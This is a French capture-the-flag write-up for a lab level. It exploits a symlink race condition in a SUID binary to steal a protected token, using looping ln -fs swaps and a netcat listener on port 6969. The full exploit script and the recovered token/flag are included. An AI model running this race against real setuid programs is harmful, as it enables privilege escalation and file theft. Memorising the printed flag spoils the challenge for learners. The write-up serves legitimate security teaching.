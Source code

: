 # Level10

```bash
ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

1) Analyse des permissions et du fonctionnement initial :
    - Lorsque vous examinez les permissions du fichier exécutable level10, vous remarquez qu'il a le bit SUID activé (-rwsr-sr-x+). Cela signifie que lorsqu'il est exécuté, il s'exécute avec les privilèges de l'utilisateur propriétaire du fichier, flag10 dans ce cas.

    - En exécutant ./level10 sans arguments, vous remarquez qu'il attend deux arguments : le premier est un fichier à envoyer, et le deuxième est l'hôte de destination. Si vous n'avez pas accès au fichier, il affiche "You don't have access to [nom du fichier]".

    - Vous découvrez que le programme se connecte à un hôte distant, probablement sur un port spécifique. Cependant, l'hôte cible n'est pas spécifié.

```bash
/level10
./level10 file host
        sends file to host if you have access to it

./level10 token localhost
You don't have access to token

./level10 /bin/ls localhost
Connecting to localhost:6969 .. Unable to connect to host localhost
```
```bash
echo '.*( )*.' > /tmp/swap;
```
2) Découverte du port cible :
    - Pour déterminer le port cible, vous créez un fichier vide nommé /tmp/swap contenant le motif .*( )*.. Ce motif sera utilisé pour filtrer les données reçues.
    - Vous démarrez un serveur Netcat en mode écoute (nc -l 6969) pour capturer les données envoyées par level10. Le filtre tr -d '.*( )*.' permet de supprimer les caractères spéciaux de ces données.
```bash
(while true; do nc -l 6969 | tr -d '.*( )*.'; done)& 
```

3) Création de liens symboliques :
    - Vous créez un script qui crée continuellement des liens symboliques (ln -fs) du fichier /tmp/swap vers /tmp/toto et du fichier token vers /tmp/toto.

```bash
(for (( ; ;)); do ~/level10 /tmp/toto 127.0.0.1 &> /dev/null; done;)&
```
4) Capture des données :
    - Maintenant, lorsque level10 est exécuté en continu avec /tmp/toto comme argument et en redirigeant vers l'adresse IP 127.0.0.1, il envoie continuellement des données.
    - Ces données sont interceptées par le serveur Netcat, filtrées à l'aide du motif, et stockées dans un fichier, prêt à être analysées.
```bash
for (( ; ; )); do         ln -fs /tmp/swap /tmp/toto;         ln -fs ~/token /tmp/toto; done;
```

5) Récupération du jeton :
    - Les liens symboliques sont continuellement modifiés pour pointer vers le fichier token. Le serveur Netcat filtre ces données et stocke le résultat dans un fichier.

Lorsque tout cela est en place, level10 envoie continuellement des données vers le serveur Netcat, qui les filtre et stocke le résultat dans un fichier. Parallèlement, les liens symboliques sont modifiés pour pointer vers le fichier token. Cette combinaison d'actions vous permet de récupérer le contenu de token et d'obtenir le jeton du niveau suivant.

```bash
su flag10
woupa2yuojeeaaed06riuj63c
```

Script pour recup le flag

```bash
DEFAULT='.*( )*.'

echo $DEFAULT > /tmp/swap

(nc -l 6969 | grep -v -e "$DEFAULT") &

(
	while true; do
		ln -fs /tmp/swap /tmp/foo
		(ln -fs /home/user/level10/token /tmp/foo &)
		/home/user/level10/level10 /tmp/foo 127.0.0.1 &>/dev/null &
	done
)&

sleep 2
killall nc &>/dev/null
killall bash &>/dev/null
```


